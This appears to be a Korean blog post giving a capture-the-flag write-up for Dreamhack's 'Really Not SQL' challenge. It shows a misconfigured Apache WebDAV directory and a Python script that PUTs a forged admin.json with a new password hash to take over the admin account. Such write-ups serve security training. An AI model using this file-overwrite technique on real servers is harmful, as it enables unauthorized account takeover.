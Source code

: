 ```yaml
---
layout: post
title: "[DH]Really Not SQL"
date: 2025-08-07 12:04 +0900
---
```

### **INFO**
![chall]
_Fig 1. Challenge_

보안적으로 취약한 설정을 찾아, 파일 덮어쓰기를 통해 익스플로잇을 하는 문제이다.

### **RECON**
아파치-PHP 스택을 사용하는 웹 서버의 내부 코드가 주어진다. 
이떄, admin, guest의 계정이 주어진 것을 확인할 수 있으며, admin으로 로그인하면 flag.php를 통해 서버 내부의 플래그 값을 입력할 수 있다.

### **SOLUTION**
admin 게정은 json으로 관리되며, /var/www/http/user/admin.json 경로로 접근이 가능하다.

edit_profile.php 파일에서 계정의 비밀번호를 수정할 수 있는 기능이 존재하지만, admin 계정의 세션 인증이 필요하기 때문에 접근할 수 없다.

서버의 설정 파일을 확인해보자. 아파치 웹 서버에서 기본적으로 생성되는 000-default.conf 파일을 보면, `/var/www/http/user` 경로에 취약하게 설정이 된 것을 확인할 수 있다.

```js
  <Directory /var/www/html/user/>
      DAV On                    // WebDav 기능 활성화
      Options Indexes           // index.html(.php) 가 없으면 파일리스트 출력
      AllowOverride All         // .htaccess 파일을 통한 설정 덮어쓰기 허용
      Require all granted       // 누구에게나 해당 폴더 접근 허용
  </Directory>
```

WebDav에 대한 설명은 다음 [링크](https://umbum.dev/562/)를 참고하길 바란다. 

### **POC**

DAV On 설정을 통해 /var/www/html/user 경로에 파일을 덮어쓸 수도, 파일을 새로 올릴 수도 있다.

admin 계정으로 로그인하는 것이 목표이기 때문에, 파일 업로드 공격을 시도했다.

임의의 비밀번호를 sha-256 해시한 값을 업로드할 json 파일에 넣고, requests로 서버에 업로드하였다.

```json
{"no": 0, "id": "admin", "password": "{NEW_PASSWORD}"}
```

```py
import requests

url = "http://host8.dreamhack.games:24093/user/admin.json"


file_path = './new_admin.json'

with open(file_path, 'rb') as f:
    res = requests.put(url, data=f)

print(f'HTTP 상태 코드: {res.status_code}')
if res.status_code in [200, 201, 204]:
    print('파일 업로드(수정) 성공!')
else:
    print('업로드 실패')
```

이제 admin 계정으로 로그인이 가능해지며, flag.php 경로를 입력하면 플래그를 획득할 수 있다.

![login]

[chall]: /assets/DreamHack/reallynotsql/challenge.png
[login]: /assets/DreamHack/reallynotsql/solution_login.png
[chall]: /assets/DreamHack/reallynotsql/challenge.png
[chall]: /assets/DreamHack/reallynotsql/challenge.png